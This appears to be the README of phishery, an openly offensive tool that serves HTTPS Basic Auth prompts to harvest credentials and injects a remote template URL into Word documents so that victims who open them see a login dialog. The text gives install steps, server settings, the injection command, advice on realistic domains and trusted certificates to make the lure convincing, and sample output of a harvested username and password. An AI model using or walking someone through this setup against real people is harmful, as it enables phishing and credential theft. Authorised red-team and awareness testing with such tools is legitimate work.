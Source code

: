 # phishery

Phishery is a Simple SSL Enabled HTTP server with the primary purpose of phishing credentials via Basic Authentication. 
Phishery also provides the ability easily to inject the URL into a .docx Word document.

![Basic Auth Dialog in Word](https://raw.githubusercontent.com/ryhanson/phishery/master/screenshots/PhisheryDialog.jpg "Basic Auth Dialog in Word")

The power of phishery is best demonstrated by setting a Word document's template to a phishery URL. This causes 
Microsoft Word to make a request to the URL, resulting in an Authentication Dialog being shown to the end-user. The
ability to inject any .docx file with a URL is possible using phishery's 
`-i [in docx]`, `-o [out docx]`, and `-u [url]` options.

### Download
Operating system specific packages can be [downloaded from here](https://github.com/ryhanson/phishery/releases).

### Install
Extract the archive, and optionally, install binary to $PATH

```bash
$ tar -xzvf phishery*.tar.gz
$ cd phishery*
$ cp phishery /usr/local/bin
```

### Usage
```text
$ phishery --help

|\   \\\\__   O         __    _      __
| \_/    o \  o  ____  / /_  (_)____/ /_  ___  _______  __
> _   (( <_ oO  / __ \/ __ \/ / ___/ __ \/ _ \/ ___/ / / /
| / \__+___/   / /_/ / / / / (__  ) / / /  __/ /  / /_/ /
|/     |/     / .___/_/ /_/_/____/_/ /_/\___/_/   \__, /
             /_/ Basic Auth Credential Harvester (____/
                 with Word Doc Template Injector

  Start the server  : phishery -s settings.json -c credentials.json
  Inject a template : phishery -u https://secure.site.local/docs -i good.docx -o bad.docx

  Options:
    -h, --help      Show usage and exit.
    -v              Show version and exit.
    -s              The JSON settings file used to setup the server. [default: "settings.json"]
    -c              The JSON file to store harvested credentials. [default: "credentials.json"]
    -u              The phishery URL to use as the Word document template.
    -i              The Word .docx file to inject with a template URL.
    -o              The new Word .docx file with the injected template URL.
```

##### Running the server
Modify the provided settings.json file as needed, by default it should look like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 200,
  "responseFile": "template.dotx",
  "responseHeaders": [
    ["Content-Type", "application/vnd.openxmlformats-officedocument.wordprocessingml.template"]
  ]
}
```

This setup will start the HTTP server on Port *443* with SSL configured to use *server.crt* and *server.key*. 
The basic authentication realm is set to *Secure Document Gateway*.
When any credentials are provided, a *200* response status is sent along with the contents of the included *template.dotx* and
the content type header: *Content-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.template*.

The settings file may also be configured to output a simple body, by using *responseBody*, like this:

```json
{
  "ip": "0.0.0.0",
  "port": "443",
  "sslCert": "server.crt",
  "sslKey": "server.key",
  "basicRealm": "Secure Document Gateway",
  "responseStatus": 404,
  "responseBody": "<h1>Not Found</h1>",
  "responseHeaders": [
    ["Content-Type", "text/html"]
  ]
}
```

The effectiveness of this tool is based mostly on the Domain and Basic Auth Realm used, as that is often all the end user 
will see when triggered from an Office document. Make sure to point your DNS A Records the public IP of the phishery server.

It's recommended that the provided cert is replaced with a trusted one, such as one generated with 
[LetsEncrypt](https://github.com/certbot/certbot). Microsoft Word on OS X will prevent the auth dialog if the cert is invalid.

Once the server is configured and running, all you need to do is embed a phishery URL in a document, or anywhere
else your heart desires. phishery does give you the ability to inject your URL into a Word document as a template, 
instructions on how to do this can be found below.

##### Injecting a Word Document
To inject a Word document with a template URL, you'll need a .docx file and the phishery server URL.

Now run phishery with your document and URL:

```text
$ phishery -url https://secure.site.local/docs -docx good.docx -badocx bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```

Make sure your phishery server is running and available at the URL you used. Now when the Word document
is opened, the victim will be prompted with an authentication dialog.

Now when the victim opens the document, you'll see the following:

```text
$ ./phishery
[+] Credential store initialized at: credentials.json
[+] Starting HTTPS Auth Server on: 0.0.0.0:443
[*] Request Received at 2016-09-25 01:06:28: HEAD https://secure.site.local/docs
[*] Sending Basic Auth response to: 127.0.0.1
[*] New credentials harvested!
[HTTP] Host        : secure.example.local
[HTTP] Request     : /docs
[HTTP] User Agent  : Microsoft Office Word
[HTTP] IP Address  : 127.0.0.1
[AUTH] Username    : john.doe
[AUTH] Password    : Summer15
```